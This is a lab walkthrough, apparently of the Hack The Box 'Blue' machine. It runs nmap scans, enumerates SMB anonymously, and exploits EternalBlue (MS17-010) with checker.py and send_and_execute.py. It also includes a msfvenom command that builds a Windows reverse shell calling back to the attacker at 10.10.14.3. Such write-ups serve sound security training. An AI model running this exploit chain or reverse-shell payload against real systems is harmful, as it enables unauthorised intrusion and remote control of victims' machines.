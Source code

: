 # Enumeration:

```bash
# Nmap 7.92 scan initiated Sun Jul 17 20:57:23 2022 as: nmap -sS -sV -A -p- -oN nmap.txt 10.10.10.40
Nmap scan report for 10.10.10.40
Host is up (0.073s latency).
Not shown: 65526 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Device type: general purpose
Running: Microsoft Windows 2008
OS CPE: cpe:/o:microsoft:windows_server_2008::sp1
OS details: Microsoft Windows Server 2008 SP1
Network Distance: 2 hops
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2022-07-18T00:59:53
|_  start_date: 2022-07-17T19:07:52
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-07-18T01:59:52+01:00
|_clock-skew: mean: -19m57s, deviation: 34m37s, median: 1s

TRACEROUTE (using port 1025/tcp)
HOP RTT      ADDRESS
1   71.60 ms 10.10.14.1
2   71.60 ms 10.10.10.40

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jul 17 20:59:59 2022 -- 1 IP address (1 host up) scanned in 156.04 seconds
``` </br>

Nmap vulnerabilities scan: ```nmap -sS -p139,445 -Pn 10.10.10.40 -v --script vuln``` </br>
![nmap_vuln_scan](images/blue/nmap_vuln_scan.png) </br>
**Initial Shell:** </br>
 EternalBlue is a SMB exploit, to determine whether we can actually exploit it with anonymous authentication, we will try to connect anonymously with this command: </br>
```smbclient -L \\10.10.10.40``` </br>
As we can see it has listed the shares without having an authenticated username and password. </br>
First I used [checker.py](https://github.com/worawit/MS17-010/blob/master/checker.py) to find the accessible named pipe: </br>
![named_pipes](images/blue/named_pipes.png) </br>
Because guest authentication was allowed, I had to modify the exploit and checker.py file: </br>
![checker_modify](images/blue/checker_modify.png) </br>
``//`` - recognized as a guest. </br>
I could see that it is a x64 architecture machine, and I could see that I found some named pipes I could use. </br>
**Generate the Payload:** </br>
```msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.3 LPORT=1234 EXITFUNC=thread -f exe  --platform windows -o reverseshell.exe``` </br>
**Exploit:** </br>
**Kali Linux** </br>
Command: ```python2 send_and_execute.py 10.10.10.40 reverseshell.exe samr``` </br>
![initial_shell_exploit](images/blue/initial_shell_exploit.png) </br> </br>
**Target Machine:** </br>
![reverse_shell](images/blue/reverse_shell.png)



